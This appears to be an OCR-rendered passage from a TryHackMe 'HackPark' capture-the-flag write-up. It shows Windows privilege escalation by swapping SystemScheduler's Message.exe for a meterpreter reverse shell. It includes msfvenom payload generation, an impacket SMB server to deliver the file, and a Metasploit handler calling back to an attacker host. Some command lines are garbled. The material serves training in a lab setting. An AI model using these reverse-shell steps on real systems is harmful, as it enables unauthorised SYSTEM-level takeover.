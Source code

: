 ```bash

# Message.exe
C:\Program Files (x86)\SystemScheduler>tasklist /v /fi "IMAGENAME eq Message.exe"
Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title                                                            
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
Message.exe                   **2368**                            1      7,272 K Unknown         N/A                                                     0:00:00 N/A

dir "Message.exe" /s
C:\Program Files (x86)\SystemScheduler>dir "Message.exe" /s
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of C:\Program Files (x86)\SystemScheduler
03/25/2018  10:58 AM           536,992 Message.exe
               1 File(s)        536,992 bytes
     Total Files Listed:
               1 File(s)        536,992 bytes
               0 Dir(s)  39,125,757,952 bytes free

```

# Privilege Escalation

We can use Python SMB server, craft our reverse shell payload and upload it to the victim host. Then rename it to “Message.exe” and let it connect back to us under a privileged user context (LocalSystem).

```bash
# GimmeSH SMB
┌──(kali㉿kali)-[~/tryhackme]
└─$ gimmesh --rev-shell 10.14.6.6 4444 win
msfvenom -p ,windows/meterpreter/reverse_tcp, LHOST=10.14.6.6, LPORT=4444, --platform windows, -a x86,false,false,false,false, -f exe, -o reverse_shell

# SMBServer.py
┌──(kali㉿kali)-[~/tryhackme]
└─$ python2 /opt/impacket-0.9.19/examples/smbserver.py smb .
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Incoming connection (10.10.41.197,49325)
[*] AUTHENTICATE_MESSAGE (\,HACKPARK)
[*] User \HACKPARK authenticated successfully
[*] :::00::4141414141414141

# On Victim host, download the shell
copy \\10.14.6.6\SMB\revshell32bitwin.exe
C:\Program Files (x86)\SystemScheduler>copy \\10.14.6.6\SMB\revshell32bitwin.exe
        1 file(s) copied.
nc.exe -nv 10.14.6.6 4444
C:\Program Files (x86)\SystemScheduler>revshell32bitwin.exe

# Start reverse handler and get a meterpreter session
┌──(kali㉿kali)-[~/tryhackme]
└─$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.14.6.6; set LPORT 4444; run"
```